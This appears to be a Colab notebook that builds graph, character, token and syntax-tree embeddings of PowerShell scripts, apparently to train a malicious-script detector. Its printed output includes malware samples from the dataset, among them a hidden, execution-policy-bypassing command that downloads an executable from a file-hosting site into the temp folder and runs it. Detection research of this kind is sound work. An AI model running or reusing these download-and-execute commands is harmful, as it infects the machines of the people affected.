Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/8 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/11 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/8 [00:00<?, ?it/s]

Converted 3736 graphs to vectors.
Graph 0: Vector shape = (128,)
Graph 1: Vector shape = (128,)
Graph 2: Vector shape = (128,)
Graph 3: Vector shape = (128,)
Graph 4: Vector shape = (128,)
Graph 5: Vector shape = (128,)
Graph 6: Vector shape = (128,)
Graph 7: Vector shape = (128,)
Graph 8: Vector shape = (128,)
Graph 9: Vector shape = (128,)
Graph 10: Vector shape = (128,)
Graph 11: Vector shape = (128,)
Graph 12: Vector shape = (128,)
Graph 13: Vector shape = (128,)
Graph 14: Vector shape = (128,)
Graph 15: Vector shape = (128,)
Graph 16: Vector shape = (128,)
Graph 17: Vector shape = (128,)
Graph 18: Vector shape = (128,)
Graph 19: Vector shape = (128,)
Graph 20: Vector shape = (128,)
Graph 21: Vector shape = (128,)
Graph 22: Vector shape = (128,)
Graph 23: Vector shape = (128,)
Graph 24: Vector shape = (128,)
Graph 25: Vector shape = (128,)
Graph 26: Vector shape = (128,)
Graph 27: Vector shape = (128,)
Graph 28: Vector shape = (128,)
Graph 29: Vector shape = (128,)
Graph 30: Vector

In [ ]:
# prompt: lưu kết quả lại

import pandas as pd
import re
from dataclasses import replace
import spacy
import networkx as nx
import pickle
from node2vec import Node2Vec
import numpy as np

# ... (your existing code)

# Lưu graph_vectors vào file
with open("/content/drive/MyDrive/dacn/graph_vectors.pkl", "wb") as f:
    pickle.dump(graph_vectors, f)

print("graph_vectors saved to /content/drive/MyDrive/dacn/graph_vectors.pkl")

graph_vectors saved to /content/drive/MyDrive/dacn/graph_vectors.pkl


In [ ]:
# prompt: load kết quả grpgh_vector và in ra 1 số thông số

import pickle
import numpy as np

# Load graph_vectors from the pickle file
try:
    with open("/content/drive/MyDrive/dacn/graph_vectors.pkl", "rb") as f:
        graph_vectors = pickle.load(f)
except FileNotFoundError:
    print("Error: graph_vectors.pkl not found. Please make sure the file exists at the specified path.")
    exit() # or handle the error in another way


# Print some information about the loaded vectors
print(f"Number of graph vectors loaded: {len(graph_vectors)}")


# Example: Print the shape and first 10 elements of the vector for graph with index 0
if 0 in graph_vectors:
    vector_0 = graph_vectors[0]
    print(f"Shape of the vector for graph 0: {vector_0.shape}")
    print(f"First 10 elements of the vector for graph 0: {vector_0[:10]}")
else:
  print("Graph with index 0 is not found in graph_vectors.")


# Example: Print the shape and first 10 elements of vectors for the first 5 graphs
for i in range(min(5, len(graph_vectors))):
  if i in graph_vectors:
    vector = graph_vectors[i]
    print(f"Graph {i}: Vector shape = {vector.shape}, First 10 elements: {vector[:10]}")
  else:
    print(f"Graph {i} not found")

Number of graph vectors loaded: 3736
Shape of the vector for graph 0: (128,)
First 10 elements of the vector for graph 0: [ 0.03152988 -0.09625649  0.04424164  0.00775544  0.00885393 -0.14779635
 -0.05034134  0.11848787 -0.00466268  0.06452461]
Graph 0: Vector shape = (128,), First 10 elements: [ 0.03152988 -0.09625649  0.04424164  0.00775544  0.00885393 -0.14779635
 -0.05034134  0.11848787 -0.00466268  0.06452461]
Graph 1: Vector shape = (128,), First 10 elements: [-0.00088899  0.00271399  0.00588602  0.00181517 -0.00386808 -0.00500486
  0.00402722  0.0045936   0.00073268  0.00091317]
Graph 2: Vector shape = (128,), First 10 elements: [ 0.00559808 -0.03566571  0.12362247 -0.01943914 -0.0672354  -0.164907
 -0.0405677   0.1128858   0.01880272  0.01993712]
Graph 3: Vector shape = (128,), First 10 elements: [-0.02120681  0.05923263  0.13895954  0.05434471 -0.09966116 -0.12455645
  0.09945378  0.11577171  0.00703938  0.01586978]
Graph 4: Vector shape = (128,), First 10 elements: [ 0.032155

In [ ]:
# prompt: từ file pkl, load G node

import pickle

try:
    with open("/content/drive/MyDrive/dacn/semantic_graph.pkl", "rb") as f:
        G = pickle.load(f)
        print("Successfully loaded G from the pickle file.")
except FileNotFoundError:
    print("Error: semantic_graph.pkl not found. Please make sure the file exists at the specified path.")
except Exception as e:
    print(f"An error occurred: {e}")

An error occurred: Ran out of input


In [ ]:
print(f"Number of nodes: {G.number_of_nodes()}")
print(f"Nodes: {list(G.nodes(data=True))[:10]}")  # Hiển thị 10 node đầu tiên


NameError: name 'G' is not defined



In [ ]:
# Visualize the graph
import matplotlib.pyplot as plt # Import the plotting library

plt.figure(figsize=(10, 8))
pos = nx.spring_layout(G)  # Generate positions for nodes using spring layout
nx.draw(
    G,
    pos,
    with_labels=False,
    node_size=500,
    node_color="skyblue",
    font_size=10,
    font_color="black",
    edge_color="gray",
    # Disable mathtext for node labels by setting usetex=False in plt.rc
    labels={node: node for node in G.nodes()},  # Use a dictionary for mapping nodes to labels
    font_family='monospace',  # Optional: Use a monospace font to improve readability
    # usetex=False  # Remove this line - usetex is not a valid argument for nx.draw()
)
plt.title("Graph Visualization")
plt.show()

### Char2Vec

In [ ]:
import pandas as pd
from gensim.models import Word2Vec

def char2vec_for_columns(df, column_names, vector_size=128, window=5, min_count=1, workers=4):
    for column_name in column_names:
        sentences = []
        for code in df[column_name]:
            if isinstance(code, str):  # Chỉ xử lý chuỗi ký tự
                chars = list(code)
                sentences.append(chars)  # Mỗi phần tử là một danh sách các ký tự đơn lẻ

        # Huấn luyện mô hình Word2Vec
        model = Word2Vec(sentences, vector_size=vector_size, window=window, min_count=min_count, workers=workers)

        # Lưu model
        model_path = "/content/drive/MyDrive/dacn/char2vec.model"
        model.save(model_path)
        print(f"Model '{column_name}_char2vec' đã được lưu tại: {model_path}")

        # In ra từ điển của model để kiểm tra
        print(f"Từ điển của model '{column_name}_char2vec':", model.wv.index_to_key)

        # Tạo cột mới chứa vector char2vec

        df["char2vec"] = df[column_name].apply(
            lambda code: [model.wv[char] for char in list(code) if char in model.wv] if isinstance(code, str) else []
        )

    return df

# Ví dụ sử dụng:
column_names_to_process = ['Full Payload']  # Thay thế bằng danh sách cột bạn muốn xử lý
df_with_char2vec = char2vec_for_columns(df, column_names_to_process)

# Load và kiểm tra model
loaded_model = Word2Vec.load("char2vec.model")
print("Kiểm tra từ điển của model đã load:", loaded_model.wv.index_to_key)
print("Kích thước vector:", loaded_model.vector_size)


Model 'Full Payload_char2vec' đã được lưu tại: /content/drive/MyDrive/dacn/char2vec.model
Từ điển của model 'Full Payload_char2vec': ['0', ',', 'x', 'e', 't', ' ', 'c', 'd', '5', 'a', 'n', 'r', '8', 'l', 'f', 'i', '1', '6', '3', '2', 'b', '4', 's', 'o', '7', '$', '9', 'p', '.', ';', 'w', 'P', 'm', 'u', '(', ')', '\\', 'I', '-', 'h', 'S', 'A', 'T', '"', ':', 'g', 'y', ']', '[', 'W', '=', 'C', 'D', 'z', 'v', "'", 'N', 'k', '/', 'L', 'E', '+', 'F', 'B', 'O', 'V', '}', '{', 'R', 'j', 'H', 'M', 'X', 'U', 'G', 'Y', 'K', 'q', 'J', 'Z', 'Q', '\n', '\r', '~', '%', '_', '\x1d', '#', '&', '!', '@', '*', '?', '\t', '`', '>', '^', '<', '\x01', 'À', '\x80', '\x08', '\x82', '\x0b', '\x06', '¤', '\x13', '\x10', '\x07', '\x18', '\x90', '¸', '\x19', '\x14', '\x1c', '\x15', '\x0c', '\x17', '\x0e', 'Ð', '\x94', 'à', '\x12', '\x1b', '\x11', 'Ì', '¼', '\x16', '\x88', '\x8c', '°', '\x0f', '\x1e', '¿', 'ì', '¬', '\xa0', '\x02', '\x84', 'Ø', 'ô', 'è', 'ð', '\x9c', 'ï', '\x1a', '»', '\x04', 'ü', '«', '\x8a', '\

FileNotFoundError: [Errno 2] No such file or directory: 'Full Payload_char2vec.model'

In [ ]:
# prompt: lưu lại char2vec.model

# Lưu model char2vec
model.save('/content/drive/MyDrive/dacn/Full Payload_char2vec.model')
print("Model 'char2vec' đã được lưu tại: /content/drive/MyDrive/dacn/char2vec.model")

NameError: name 'model' is not defined

In [ ]:
# prompt: convert char2vec.model sang pkl

from gensim.models import Word2Vec
import pickle

# Load the char2vec model
try:
    model = Word2Vec.load('/content/drive/MyDrive/dacn/char2vec.model')
    print("Model 'char2vec' loaded successfully.")
except FileNotFoundError:
    print("Error: char2vec.model not found. Please make sure the file exists at the specified path.")
    exit()
except Exception as e:
    print(f"An error occurred while loading the model: {e}")
    exit()

# Save the model as a pickle file
try:
    with open('/content/drive/MyDrive/dacn/char2vec.pkl', 'wb') as f:
        pickle.dump(model, f)
    print("Model 'char2vec' saved as a pickle file successfully.")
except Exception as e:
    print(f"An error occurred while saving the model as a pickle file: {e}")

Model 'char2vec' loaded successfully.
Model 'char2vec' saved as a pickle file successfully.


In [ ]:
# import pandas as pd
# from gensim.models import Word2Vec

# def optimized_char2vec_for_columns(df, column_names, vector_size=128, window=5, min_count=1, workers=4):
#     for column_name in column_names:
#         # Kiểm tra xem cột có tồn tại trong DataFrame
#         if column_name not in df.columns:
#             print(f"Cột '{column_name}' không tồn tại trong DataFrame.")
#             continue

#         # Chuẩn bị danh sách các câu ký tự cho cột hiện tại
#         sentences = [list(code) for code in df[column_name].values if isinstance(code, str)]

#         # Huấn luyện mô hình Word2Vec
#         model = Word2Vec(sentences, vector_size=vector_size, window=window, min_count=min_count, workers=workers)

#         # Lưu mô hình vào file với tên riêng cho mỗi cột
#         model_path = f"char2vec.model"
#         model.save(model_path)
#         print(f"Đã lưu mô hình 'char2vec' tại: {model_path}")

#         # Tạo cột mới cho các vector embedding char2vec

#         df["char2vec"] = df[column_name].apply(
#             lambda code: [model.wv[char] for char in list(code) if char in model.wv] if isinstance(code, str) else []
#         )

#     return df

# # Ví dụ sử dụng
# column_names_to_process = ['Full Payload']  # Thay thế bằng danh sách cột bạn muốn xử lý
# df_with_char2vec = optimized_char2vec_for_columns(df, column_names_to_process)


In [ ]:
import numpy as np

def optimized_char2vec_for_columns(df, column_names, vector_size=128, window=5, min_count=1, workers=4):
    for column_name in column_names:
        # Kiểm tra xem cột có tồn tại trong DataFrame
        if column_name not in df.columns:
            print(f"Cột '{column_name}' không tồn tại trong DataFrame.")
            continue

        # Chuẩn bị danh sách các câu ký tự cho cột hiện tại
        sentences = [list(code) for code in df[column_name].values if isinstance(code, str)]

        # Huấn luyện mô hình Word2Vec
        model = Word2Vec(sentences, vector_size=vector_size, window=window, min_count=min_count, workers=workers)

        # # Lưu mô hình vào file với tên riêng cho mỗi cột
        # model_path = f"{column_name}_char2vec.model"
        # model.save(model_path)
        # print(f"Đã lưu mô hình '{column_name}_char2vec' tại: {model_path}")

        # Tạo cột mới cho vector embedding char2vec trung bình của mỗi chuỗi
        # new_column_name = f"{column_name}_char2vec"
        df["char2vec"] = df[column_name].apply(
            lambda code: np.mean([model.wv[char] for char in list(code) if char in model.wv], axis=0) if isinstance(code, str) else np.zeros(vector_size)
        )

    return df

# Ví dụ sử dụng
column_names_to_process = ['Full Payload']  # Thay thế bằng danh sách cột bạn muốn xử lý
df_with_char2vec = optimized_char2vec_for_columns(df, column_names_to_process)


In [ ]:
# print(len(df_with_char2vec['Full Payload_char2vec'][0]))

In [ ]:
print(df.head())

                                       Original Code  \
0  "\"C:\\Windows\\System32\\WindowsPowerShell\\v...   
1  "\"C:\\Windows\\System32\\WindowsPowerShell\\v...   
2  "\"C:\\Windows\\System32\\WindowsPowerShell\\v...   
3  "powershell.exe  -nop -wind hidden -Exec Bypas...   
4  "powershell -window hidden -enc JAAxACAAPQAgAC...   

                                            Filename  \
0  001fd68e5a83c14adf9ae5fd02b4219b05f61f6b5d74f1...   
1  006f5f154f95ceb806c508967fd8eec2e106031369b788...   
2  00764435abfb52cfdd3b19ae03e1eaf4e4ab7a05c4a380...   
3  00a34546b6db32ca0d9f2b6aa25012b873da452a0eb939...   
4  00ac03c8ae8994be7809d8a46387bfb784641e9e4c8ce8...   

                                           Arguments  \
0                          ['-nop', '-noni', '-enc']   
1                         ['-window hidden', '-enc']   
2                                           ['-enc']   
3  ['-nop', '-wind hidden', '-Exec Bypass', '-non...   
4                         ['-window hidden', '

### Token2Vec

#### token
"token" refers to individual components or words extracted from a PowerShell script, such as commands, variables, functions, parameters, and keywords.

Cmdlets: Regex tìm các cmdlet cụ thể (ví dụ: New-Object, Start-Process). Để mở rộng, bạn có thể thêm các cmdlet khác.

Variables: Tìm các biến PowerShell bắt đầu bằng $.

Functions: Tìm các định nghĩa hàm (sử dụng từ khóa function).

Keywords: Nhận diện các từ khóa điều khiển như if, else, for, while, và return.

Parameters: Trích xuất tham số bắt đầu bằng dấu -, thường là tham số của cmdlet.
Strings: Tìm chuỗi được đặt trong dấu "".

In [ ]:
import pandas as pd
from gensim.models import Word2Vec
from sklearn.feature_extraction.text import TfidfVectorizer
import re
import numpy as np

# Hàm trích xuất token đặc trưng từ PowerShell script
def extract_tokens(script):
    cmdlets = re.findall(r'\b(?:Invoke-Expression|Invoke-Command|Start-Process|New-Object|Set-ExecutionPolicy|Get-Content|Add-Type|Invoke-WebRequest|Invoke-RestMethod|Get-WmiObject|Out-File|New-Service|Remove-Item)\b', script)
    variables = re.findall(r'\$[a-zA-Z_][\w]*', script)
    functions = re.findall(r'\bfunction\s+\w+', script)
    keywords = re.findall(r'\b(?:if|else|for|while|return)\b', script)
    parameters = re.findall(r'-\w+', script)
    strings = re.findall(r'".+?"', script)

    return cmdlets + variables + functions + keywords + parameters + strings

# Áp dụng TF-IDF để tính trọng số cho các token
def calculate_tfidf_weights(df, column_name):
    vectorizer = TfidfVectorizer(tokenizer=extract_tokens)
    tfidf_matrix = vectorizer.fit_transform(df[column_name].astype(str))
    feature_names = vectorizer.get_feature_names_out()
    return tfidf_matrix, feature_names

# Huấn luyện Token2Vec và tạo vector đại diện cho mỗi script
def token2vec_for_columns(df, column_name, vector_size=128, window=5, min_count=1, workers=4):
    # Trích xuất tokens cho mỗi script và tạo danh sách tokens cho mô hình Word2Vec
    token_lists = [extract_tokens(script) for script in df[column_name].astype(str)]

    # Huấn luyện Word2Vec trên các token đã trích xuất
    model = Word2Vec(token_lists, vector_size=vector_size, window=window, min_count=min_count, workers=workers)

    # Tạo cột token2vec bằng trung bình các vector token cho mỗi script
    df['token2vec'] = [
        np.mean([model.wv[token] for token in tokens if token in model.wv], axis=0) if tokens else np.zeros(vector_size)
        for tokens in token_lists
    ]

    return df, model




In [ ]:
# Ví dụ sử dụng
column_names_to_process = ['Full Payload']
tfidf_matrix, feature_names = calculate_tfidf_weights(df, 'Full Payload')
df_with_token2vec, token2vec_model = token2vec_for_columns(df, 'Full Payload')

# Kiểm tra kết quả
print(df_with_token2vec[['token2vec']])

/usr/local/lib/python3.10/dist-packages/sklearn/feature_extraction/text.py:517: UserWarning: The parameter 'token_pattern' will not be used since 'tokenizer' is not None'
  warnings.warn(


                                              token2vec
0     [-0.6370456, 0.9223517, -0.39431137, 0.5933571...
1     [0.39459136, -0.057301678, 0.7630129, -0.23569...
2     [-0.66133785, 0.91075754, -0.40748087, 0.60203...
3     [0.27556905, 0.295576, 0.714149, 0.28332588, 0...
4     [-0.49412373, 0.6881306, -0.24564451, 0.450926...
...                                                 ...
4074  [0.39459136, -0.057301678, 0.7630129, -0.23569...
4075  [0.35206828, -0.11511989, 0.58585656, -0.16367...
4076  [-0.5464376, 0.8056083, -0.3206611, 0.5663092,...
4077  [0.39459136, -0.057301678, 0.7630129, -0.23569...
4078  [-0.20437445, -0.755189, 0.72936064, 0.5033880...

[4079 rows x 1 columns]


In [ ]:

if 'token2vec_model' in locals():
  print("Mô hình Token2Vec đã được huấn luyện.")

  # Ví dụ: Lấy vector cho một token cụ thể
  sample_token = 'New-Object'  # Thay thế bằng một token có trong mô hình
  if sample_token in token2vec_model.wv:
    token_vector = token2vec_model.wv[sample_token]
    print(f"Vector cho token '{sample_token}': {token_vector}")
  else:
    print(f"Token '{sample_token}' không tồn tại trong mô hình.")

  # Ví dụ: Tính toán độ tương tự giữa hai token
  token1 = 'Start-Process'
  token2 = 'DownloadFile'
  if token1 in token2vec_model.wv and token2 in token2vec_model.wv:
    similarity = token2vec_model.wv.similarity(token1, token2)
    print(f"Độ tương tự giữa '{token1}' và '{token2}': {similarity}")
  else:
    print(f"Một hoặc cả hai token '{token1}' và '{token2}' không tồn tại trong mô hình.")

else:
  print("Mô hình Token2Vec chưa được huấn luyện.")



Mô hình Token2Vec đã được huấn luyện.
Vector cho token 'New-Object': [ 4.73897457e-01 -1.76956192e-01  7.68158615e-01 -2.03313053e-01
  5.71321726e-01 -3.22076708e-01  1.52861416e-01  5.97148418e-01
  6.98087215e-02 -3.54570210e-01  1.04479444e+00 -2.10047096e-01
 -4.66368347e-01 -3.75948548e-02  2.90723026e-01 -8.89647603e-02
  5.03240049e-01  4.11553204e-01 -6.12967968e-01  1.84139192e-01
  6.15598023e-01  3.28110665e-01  3.66442263e-01 -5.00594318e-01
 -1.09239805e+00  1.48106115e-02 -5.89604735e-01  4.01099682e-01
  4.24583852e-01 -7.27080047e-01 -5.33945739e-01  1.01337254e-01
  2.20758140e-01  4.68465030e-01 -4.93818134e-01  6.64225101e-01
  1.04505694e+00  4.42195624e-01  4.05254513e-01  1.42495275e-01
 -6.93399668e-01  8.06327641e-01  5.47001995e-02 -6.49760604e-01
  5.49772561e-01 -4.43408161e-01  3.97880912e-01 -7.94256449e-01
 -1.32513598e-01  6.85343683e-01 -9.42070317e-03  3.25052351e-01
  1.23977399e+00  6.24925375e-01  6.96554482e-01  4.77748573e-01
  9.54337418e-01 -1.5

In [ ]:


# Lưu trữ mô hình Token2Vec
if 'token2vec_model' in locals():
  token2vec_model.save("/content/drive/MyDrive/dacn/token2vec.model")
  print("Mô hình Token2Vec đã được lưu.")
else:
  print("Mô hình Token2Vec chưa được huấn luyện.")

Mô hình Token2Vec đã được lưu.


In [ ]:
print(df.head())

                                       Original Code  \
0  "\"C:\\Windows\\System32\\WindowsPowerShell\\v...   
1  "\"C:\\Windows\\System32\\WindowsPowerShell\\v...   
2  "\"C:\\Windows\\System32\\WindowsPowerShell\\v...   
3  "powershell.exe  -nop -wind hidden -Exec Bypas...   
4  "powershell -window hidden -enc JAAxACAAPQAgAC...   

                                            Filename  \
0  001fd68e5a83c14adf9ae5fd02b4219b05f61f6b5d74f1...   
1  006f5f154f95ceb806c508967fd8eec2e106031369b788...   
2  00764435abfb52cfdd3b19ae03e1eaf4e4ab7a05c4a380...   
3  00a34546b6db32ca0d9f2b6aa25012b873da452a0eb939...   
4  00ac03c8ae8994be7809d8a46387bfb784641e9e4c8ce8...   

                                           Arguments  \
0                          ['-nop', '-noni', '-enc']   
1                         ['-window hidden', '-enc']   
2                                           ['-enc']   
3  ['-nop', '-wind hidden', '-Exec Bypass', '-non...   
4                         ['-window hidden', '

### AST

In [ ]:
!pip install anytree

   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 44.9/44.9 kB 2.0 MB/s eta 0:00:00


In [ ]:
import re
from anytree import Node, RenderTree
from gensim.models import Word2Vec
import numpy as np
import pandas as pd

# Lớp phân tích cú pháp PowerShell AST mở rộng
class EnhancedPowerShellASTParser:
    def __init__(self, code):
        self.code = code
        self.root = Node("Root")

    def parse_code(self):
        tokens = re.findall(r'\b\w+\b', self.code)
        current_node = self.root
        for token in tokens:
            # Xác định loại node dựa trên từ khóa hoặc cú pháp
            if token.lower() in ["function", "if", "foreach", "while", "try", "catch"]:
                node_type = f"{token.capitalize()}Statement"
                new_node = Node(node_type, parent=current_node)
            elif token.lower() in ["param", "return"]:
                new_node = Node("ParameterStatement", parent=current_node)
            elif token.lower() == "pipeline":
                new_node = Node("Pipeline", parent=current_node)
            elif token.lower() in ["cmdlet", "assignment"]:
                new_node = Node(f"{token.capitalize()}Node", parent=current_node)
            else:
                new_node = Node(token, parent=current_node)
        return self.root

    # Hàm duyệt cây theo thứ tự hậu kỳ để tạo chuỗi đặc trưng
    def postorder_traversal(self, node):
        sequence = []
        for child in node.children:
            sequence.extend(self.postorder_traversal(child))
        sequence.append(node.name)
        return sequence

    # Hàm in cấu trúc cây AST
    def print_ast_structure(self):
        ast_tree = self.parse_code()
        for pre, fill, node in RenderTree(ast_tree):
            print(f"{pre}{node.name}")

# Hàm xây dựng tập hợp đặc trưng từ cây AST
def build_feature_set_from_ast(ast_sequences):
    unique_features = set()
    for seq in ast_sequences:
        unique_features.update(seq)
    return list(unique_features)

# Hàm tính toán vector từ cho mỗi đặc trưng AST
def calculate_word_vectors(features, vector_size=128, window=5, min_count=1):
    model = Word2Vec(sentences=features, vector_size=vector_size, window=window, min_count=min_count)
    word_vectors = {word: model.wv[word] for word in model.wv.index_to_key}
    return word_vectors



# Hàm sinh vector AST cho mỗi mã PowerShell
def generate_ast_embedding(ast_sequence, word_vectors):
    embedding = np.mean([word_vectors[token] for token in ast_sequence if token in word_vectors], axis=0)
    return embedding






In [ ]:


# Bước 1: Khởi tạo parser, in cấu trúc AST, và xử lý từng đoạn mã PowerShell
ast_sequences = []
for script in df['Full Payload']:
    parser = EnhancedPowerShellASTParser(script)
    print(f"AST structure for script:\n{script}")
    parser.print_ast_structure()  # In cấu trúc cây AST
    ast_tree = parser.parse_code()
    sequence = parser.postorder_traversal(ast_tree)
    ast_sequences.append(sequence)
    print("\n" + "-"*50 + "\n")

# Bước 2: Xây dựng tập hợp đặc trưng và tính toán vector từ cho AST
features = build_feature_set_from_ast(ast_sequences)
word_vectors = calculate_word_vectors(ast_sequences)


# Tạo vector AST cho từng mã PowerShell
ast_embeddings = [generate_ast_embedding(seq, word_vectors) for seq in ast_sequences]
df['ast2vec'] = ast_embeddings

Streaming output truncated to the last 5000 lines.
├── Net
├── WebClient
├── DownloadFile
├── https
├── a
├── pomf
├── cat
├── wopkwj
├── exe
├── env
├── TEMP
├── drv
├── docx
├── Start
├── Process
├── env
├── TEMP
├── drv
└── docx

--------------------------------------------------

AST structure for script:
powershell.exe  -ExecutionPolicy ByPass -WindowStyle Hidden -enc  (New-Object System.Net.WebClient).DownloadFile('https://a.pomf.cat/mjnspx.exe',"$env:TEMP\mjnp.exe");Start-Process ("$env:TEMP\mjnp.exe")
Root
├── powershell
├── exe
├── ExecutionPolicy
├── ByPass
├── WindowStyle
├── Hidden
├── enc
├── New
├── Object
├── System
├── Net
├── WebClient
├── DownloadFile
├── https
├── a
├── pomf
├── cat
├── mjnspx
├── exe
├── env
├── TEMP
├── mjnp
├── exe
├── Start
├── Process
├── env
├── TEMP
├── mjnp
└── exe

--------------------------------------------------

AST structure for script:
\C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe  -window hidden -enc  (New-Object Sys

In [ ]:
# prompt: lưu lại model của việc chuyển ast sang vec

# Lưu trữ mô hình Word2Vec cho ast2vec
if 'word_vectors' in locals():
    import pickle
    with open('/content/drive/MyDrive/dacn/ast2vec_model.pkl', 'wb') as f:
        pickle.dump(word_vectors, f)
    print("Mô hình ast2vec đã được lưu thành công.")
else:
    print("Mô hình ast2vec chưa được huấn luyện.")

Mô hình ast2vec đã được lưu thành công.


In [ ]:
# prompt: load thử model để kiểm tra

import pandas as pd
import re
from dataclasses import replace
import spacy
import networkx as nx
import pickle
from node2vec import Node2Vec
import numpy as np
import matplotlib.pyplot as plt
from gensim.models import Word2Vec
from sklearn.feature_extraction.text import TfidfVectorizer
from anytree import Node, RenderTree

# Load the char2vec model
try:
    model = Word2Vec.load('/content/drive/MyDrive/dacn/char2vec.model')
    print("Model 'char2vec' loaded successfully.")
except FileNotFoundError:
    print("Error: char2vec.model not found. Please make sure the file exists at the specified path.")
    exit()
except Exception as e:
    print(f"An error occurred while loading the model: {e}")
    exit()

In [ ]:
# prompt: load và kiểm tra model ast2vec

import pickle

# Load the ast2vec model
try:
    with open('/content/drive/MyDrive/dacn/ast2vec_model.pkl', 'rb') as f:
        loaded_ast2vec_model = pickle.load(f)
    print("Model 'ast2vec' loaded successfully.")

    # Kiểm tra model
    print("Kiểm tra model ast2vec:", list(loaded_ast2vec_model.keys())[:5]) # In ra 5 key đầu tiên để kiểm tra

except FileNotFoundError:
    print("Error: ast2vec_model.pkl not found. Please make sure the file exists at the specified path.")
except Exception as e:
    print(f"An error occurred while loading the model: {e}")

Model 'ast2vec' loaded successfully.
Kiểm tra model ast2vec: ['0x8b', '0x00', 'IntPtr', '0', '0x68']


In [ ]:
df['ast2vec'] = ast_embeddings

